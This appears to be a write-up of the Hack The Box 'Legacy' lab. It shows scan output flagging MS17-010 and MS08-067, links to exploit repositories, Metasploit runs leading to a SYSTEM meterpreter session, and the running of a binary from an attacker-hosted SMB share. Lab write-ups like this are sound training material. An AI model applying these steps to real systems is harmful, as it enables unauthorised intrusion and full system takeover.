



# Legacy

## Machine Info



## Recon

### port

- nmap

```console
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (94%), Microsoft Windows 2000 (93%), Microsoft Windows 2000 SP4 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

- nmap with vuln scripts: `nmap -p445 --script smb-vuln* 10.10.10.4`
  - CVE-2008-4250
  - CVE-2017-0143

```console
Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
```

## Foothold

### CVE-2017-0143

Payloads:

- https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
- https://github.com/worawit/MS17-010
- https://github.com/helviojunior/MS17-010

The manual exploit process:

1. msfvenom to create payload
2. ms17-010 exploit code executed to upload payload
3. use nc or msf to catch the reverse shell

However, in 2024 the exploit code of python2.7 is really really far away from deprecated and many packages are not maintained at all. python2.7 is unable to be installed at the moment because dsinternals does not adpat to python 2.7

```console
└─╼$ python2.7 -m pip install impacket
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Defaulting to user installation because normal site-packages is not writeable
Collecting impacket
  Using cached impacket-0.11.0.tar.gz (1.5 MB)
Collecting pyasn1>=0.2.3
  Using cached pyasn1-0.5.1-py2.py3-none-any.whl (84 kB)
Collecting pycryptodomex
  Using cached pycryptodomex-3.20.0-cp27-cp27mu-manylinux2010_x86_64.whl (2.3 MB)
Collecting pyOpenSSL>=21.0.0
  Using cached pyOpenSSL-21.0.0-py2.py3-none-any.whl (55 kB)
Collecting six
  Using cached six-1.16.0-py2.py3-none-any.whl (11 kB)
Collecting ldap3!=2.5.0,!=2.5.2,!=2.6,>=2.5
  Using cached ldap3-2.9.1-py2.py3-none-any.whl (432 kB)
Collecting ldapdomaindump>=0.9.0
  Using cached ldapdomaindump-0.9.4-py2-none-any.whl (18 kB)
Collecting flask>=1.0
  Using cached Flask-1.1.4-py2.py3-none-any.whl (94 kB)
Collecting future
  Using cached future-0.18.3.tar.gz (840 kB)
Collecting charset_normalizer
  Using cached charset-normalizer-3.0.1.tar.gz (92 kB)
Collecting dsinternals
  Using cached dsinternals-1.2.4.tar.gz (174 kB)
ERROR: Package 'dsinternals' requires a different Python: 2.7.18 not in '>=3.4'
```

The metasploit method:

- `windows/smb/ms17_010_eternalblue` is for x64 machine
- `windows/smb/ms17_010_psexec` is capable to exploit x86 machine (as this machine is Windows XP)

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1 x86 (32-bit)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.4:445 - The target is vulnerable.
[-] 10.10.10.4:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
```





And we are already have the system privilege:

```console
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeUndockPrivilege
```

## Exploit Chain

port scan -> smb vuln scan -> two cve -> system shell

## Beyond Root

**No whoami ???**

1. local smb

```console
└─╼$ sudo impacket-smbserver qwe ~/pwk/tools
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

----------------------------------------------------------------------

C:\WINDOWS\system32>\\10.10.14.14\qwe\whoami.exe
NT AUTHORITY\SYSTEM
```

2. msf upload

```console
meterpreter > upload ~/pwk/tools/whoami.exe
[*] Uploading  : /home/qwe/pwk/tools/whoami.exe -> whoami.exe
[*] Uploaded 65.00 KiB of 65.00 KiB (100.0%): /home/qwe/pwk/tools/whoami.exe -> whoami.exe
[*] Completed  : /home/qwe/pwk/tools/whoami.exe -> whoami.exe
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > back
[-] Unknown command: back
meterpreter > shell
Process 1472 created.
Channel 3 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
NT AUTHORITY\SYSTEM
```

